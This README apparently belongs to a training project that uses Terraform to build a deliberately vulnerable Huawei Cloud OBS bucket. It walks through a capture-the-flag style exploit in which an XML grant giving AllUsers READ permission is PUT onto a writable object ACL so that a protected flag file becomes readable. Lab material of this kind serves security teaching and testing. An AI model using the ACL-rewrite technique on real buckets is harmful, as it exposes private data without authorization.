

# Huawei Cloud OBS object ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is a vulnerability environment scenario for building HUAWEI CLOUD Object ACL.

After you build an environment with Terraform, users can read data that would otherwise not be read by modifying object's ACL policy.

## Deployment Environment

run in a container

```shell
cd /TerraformGoat/huaweicloud/obs/object_acl_writable/
```

Edit the `terraform.tfvars` file and fill in the file with your `huaweicloud_access_key` and `huaweicloud_secret_key`.

> The access key can be found in HUAWEI CLOUD [Console --> My Credentials]

```shell
vim terraform.tfvars
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`


After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Object ACL read and write permissions, and the Object Key is the flag.

## Vulnerability Utilization

Try to read the flag file and find that it prompts access denied.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```


Attempt to read the ACL policy of the flag file and found that it can be read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```



Try to use the PUT method to upload the Object ACL policy of the flag file, add the following policy to the original policy, and find that it can be uploaded.

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```


Try to read the flag file again, you can see that the flag file was successfully read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```


## Destroy the environment

```shell
terraform destroy
```
